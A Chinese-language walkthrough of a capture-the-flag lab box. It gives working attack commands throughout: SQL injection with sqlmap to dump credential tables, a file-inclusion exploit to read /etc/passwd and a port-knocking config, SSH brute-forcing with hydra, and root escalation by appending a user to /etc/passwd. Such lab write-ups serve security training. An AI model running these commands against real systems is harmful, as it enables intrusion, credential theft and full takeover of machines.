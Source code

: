 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.17


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.17
```

![image-20220113111727814.png](./assets/1652257220065-75a6fb21-dba6-4fa4-b54d-931111c4cbe6.png)


## 目录扫描

![image-20220113112512459.png](./assets/1652257224704-f10d698d-108c-4f8b-b3a6-ba0c9e977f48.png)

扫描出includes目录，可能存在文件包含漏洞

![image-20220113112641207.png](./assets/1652257228089-5e8b0a30-62b4-4e06-b8e1-cc0d3e6026ca.png)

扫描出config.php文件，可惜没有什么类容

![image-20220113112717050.png](./assets/1652257230753-ba73107f-ddae-439c-a7ff-0414602e5248.png)


## 漏洞发现

查看网页源码，没有什么有用的信息

![image-20220113112842706.png](./assets/1652257233762-3e0a9406-12ca-40d0-b09b-c9ba4cc1419f.png)

访问HTTP服务，发现在search标签处存在SQL注入漏洞

![image-20220113112959461.png](./assets/1652257236648-af522636-e02e-4804-9b8d-d9f5ed509c2a.png)

![image-20220113113007650.png](./assets/1652257239365-17a149b1-3a83-4f9d-8785-e97404e19e92.png)

使用burpsuite抓包，将请求包保存到test.txt文档中，使用sqlmap扫描

```
sqlmap -r test.txt --dbs
```

![image-20220113113950895.png](./assets/1652257242182-74d5e002-5954-4a14-9b20-c8086ec7deae.png)

暴表

```
sqlmap -r test.txt -D users --tables
```

![image-20220113114115178.png](./assets/1652257244846-bccea49f-0c0b-4c9a-93ef-c4183cd1e438.png)

暴字段

```
sqlmap -r test.txt -D users -T UserDetails --columns
```

![image-20220113114212216.png](./assets/1652257247771-21eb0930-8785-44c7-8c17-7383d30046d5.png)

拖库

```
sqlmap -r test.txt -D users -T UserDetails -C username,password --dump
```

![image-20220113114325946.png](./assets/1652257251072-8b39a975-b152-4340-8717-24822c2a1f4c.png)

将得到的账户和密码分别保存为账号字典和密码字典使用burpsuite进行爆破（手动登录太麻烦了），并没有找到成功登录的账号

![image-20220113140041558.png](./assets/1652257253930-d386b5f0-9cba-4256-8790-75eeeb89551c.png)

尝试使用wfuzz进行爆破，依然是没有成功匹配的账户

```
wfuzz -z file,username.txt -z file,password.txt -d "username=FUZZ&password=FUZ2Z" http://192.168.1.17/manage.php
```

![image-20220113140747442.png](./assets/1652257257196-9a4933d7-e7a6-4beb-8a3d-5cc5fa4c9813.png)

使用sqlmap爆破另外一个库

```
sqlmap -r test.txt --dbs
sqlmap -r test.txt -D Staff --tables
sqlmap -r test.txt -D staff -T Users --columns
sqlmap -r test.txt -D Staff -T Users -C Username,Password --dump
```

![image-20220113141312641.png](./assets/1652257260662-3850ebb9-46b0-471e-b2aa-ad3a1339af51.png)

md5解密得到密码transorbital1

![image-20220113141503234.png](./assets/1652257264552-b16564a5-9c1c-4751-8e7e-35c0b6f455b1.png)

尝试登录后台，成功，登陆后台发现并没有什么东西不过在页面提示了`File does not exist`联想到上面说的可能存在文件包含漏洞

![image-20220113141625420.png](./assets/1652257268459-bdb3bd8d-9953-4d7a-9eff-eb824d568f40.png)

可能存在文件包含漏洞，但是我们不知道包含参数是什么，使用wfuzz测试探测参数

```
wfuzz -b 'PHPSESSID=5ooo4v00ecl2d0lft26rlh12k5' -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.1.17/manage.php?FUZZ=../../../../../../../../etc/passwd
```

![image-20220113144111179.png](./assets/1652257272656-e10131bd-a9de-4697-8e2d-4d24b647c0b6.png)

添加过滤条件，成功得到参数`file`

```
wfuzz --hw 87 -b 'PHPSESSID=5ooo4v00ecl2d0lft26rlh12k5' -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.1.17/manage.php?FUZZ=../../../../../../../../etc/passwd
```

![image-20220113144123330.png](./assets/1652257275991-b96be7fe-7cdf-47a8-95a9-81c05797c9f0.png)

访问/etc/passwd文件，发现一些账户和我们前面爆破第一个数据库里面的账户相同

![image-20220113144423037.png](./assets/1652257284811-5eec841c-81f3-4523-8046-4cd7d7525693.png)

使用前面第一个数据库里面的账户和密码来爆破SSH服务，链接失败

```
hydra -L username.txt -P password.txt 192.168.1.17 ssh
```

![image-20220113144855856.png](./assets/1652257289389-36792087-ebc8-4164-8534-c0ddd58ce404.png)

再次扫描22号端口

```
nmap -sV -A 192.168.1.17 -p 22
```

![image-20220113144943596.png](./assets/1652257292478-cef0d39e-389c-4372-8a97-3e631930aa13.png)

可能存在的问题

- 不允许字典中的用户远程链接
- 22端口可能不是ssh服务
- 启用了端口敲门服务

互联网搜索[端口敲门服务](https://www.cnblogs.com/wsjhk/p/5508051.html)发现若是存在端口敲门服务则在etc目录下会存在knockd.conf文件

![image-20220113145644035.png](./assets/1652257297224-1cddf782-e583-446f-a8f5-44f7ff20c6a4.png)

利用文件包含漏洞查看是否存在该文件

![image-20220113145822467.png](./assets/1652257300875-3cbafffd-8afd-41d4-8cfc-87a81d7e3cf5.png)

存在该文件，而且我们还得到了端口开门序号7469、8475、9842

敲门开启SSH服务

![image-20220113150446134.png](./assets/1652257304319-4ec76123-d464-4772-a3e6-2b5667fce37a.png)

```
nmap -p 7469 192.168.1.17
nmap -p 8475 192.168.1.17
nmap -p 9842 192.168.1.17
```

失败

![image-20220113151723785.png](./assets/1652257308213-89dc696a-8f8f-4148-bfb2-3bd4dd521250.png)

使用natcat命令敲门，成功

```
for x in 7469 8475 9842; do nc 192.168.1.17 $x;done
```

![image-20220113151945334.png](./assets/1652257312677-7b72d27f-234a-4749-b890-9f84497128ad.png)

再次爆破，得到了三个账户

```
hydra -L username.txt -P password.txt 192.168.1.17 ssh
```

![image-20220113152319067.png](./assets/1652257316111-6ac70ab6-2ff9-48c4-b45a-ccf33295be37.png)

依次登录查找最大权限的账户，在janitor用户里面发现新的密码

![image-20220113153040368.png](./assets/1652257463193-a44804db-48fc-4ed7-a41b-e2d4c3ae283c.png)

将密码提取出来结合前面的username.txt再次使用hydra进行爆破

```
hydra -L username.txt -P password2.txt 192.168.1.17 ssh
```

得到一个新用户fredf

![image-20220113153404970.png](./assets/1652257468747-a5426182-3576-4ffc-af4d-c274f687d908.png)

使用fredf账户登录，输入`sudo -l`显示我们可以使用`root`身份执行`/opt/devstuff/dist/test/test`并且不需要密码

![image-20220113153539605.png](./assets/1652257473274-beff5ac9-7aa6-4183-8cf7-476b308abbbc.png)

进入/opt/devstuff/dist/test/执行一下这个test文件

![image-20220113154209448.png](./assets/1652257477761-fec611e0-e1e7-45dd-8386-f443a91f0a4f.png)

显示`Usage: python test.py read append`，就是说这个脚本可以以root权限将任意内容写入任意文件。那么我们可以写入一个具有root权限的用户到/etc/passwd文件中。

使用openssl生成我们自己的password

```
openssl passwd -1 -salt XMTX 123456
```

![image-20220113155417506.png](./assets/1652257482250-9cf88367-e0e6-4f4c-8f11-60600d0896bf.png)

将我们的内容写入tmp目录下的文件，内容为

```
echo 'XMTX:$1$XMTX$c8g3nQF1CtFDu//blOniM0:0:0::/root:/bin/bash' > /tmp/password
echo "XMTX1::0:0:::/bin/bash" > /tmp/password1
```

![image-20220113155815332.png](./assets/1652257493361-a5d156e3-8b87-49f3-bbf6-b712cafcd8b8.png)

利用test脚本将password中的内容追加到/etc/password中并切换到XMTX用户

```
sudo ./test /tmp/password /etc/passwd
```

![image-20220113160218234.png](./assets/1652257497063-77705bf2-179d-448d-9ee9-279596be0078.png)

成功得到root权限


## final-flag

在root的根目录下找到flag

![image-20220113160324294.png](./assets/1652257501194-c56da56a-19d1-429e-bd4a-9a153a405f94.png)
